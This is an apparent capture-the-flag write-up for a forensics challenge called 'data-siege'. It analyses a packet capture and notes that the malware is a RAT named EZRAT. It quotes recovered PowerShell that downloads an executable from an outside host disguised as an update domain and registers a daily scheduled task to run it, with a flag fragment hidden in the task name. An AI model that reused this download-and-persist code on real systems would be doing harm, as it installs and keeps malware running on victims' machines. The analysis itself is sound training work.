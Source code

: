 # data-siege

"It was a tranquil night in the Phreaks headquarters, when the entire district erupted in chaos. Unknown assailants, rumored to be a rogue foreign faction, have infiltrated the city's messaging system and critical infrastructure. Garbled transmissions crackle through the airwaves, spewing misinformation and disrupting communication channels. We need to understand which data has been obtained from this attack to reclaim control of the and communication backbone. Note: flag is splitted in three parts."

## Attempt

```sh
wireshark capture.pcap
```

```ps1
(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")

$action = New-ScheduledTaskAction -Execute "C:\Users\svc01\AppData\Roaming\4fva.exe"

$trigger = New-ScheduledTaskTrigger -Daily -At 2:00AM

$settings = New-ScheduledTaskSettingsSet

# 3th flag part:

Register-ScheduledTask -TaskName "0r3d_1n_7h3_h34dqu4r73r5}" -Action $action -Trigger $trigger -Settings $settings
```


- 0r3d_1n_7h3_h34dqu4r73r5}

## Solution

https://youtu.be/EGItzKCxTdQ?si=bYHKdX8CjZRtvIcj&t=10837

use dnspy on executable -> program called EZRAT


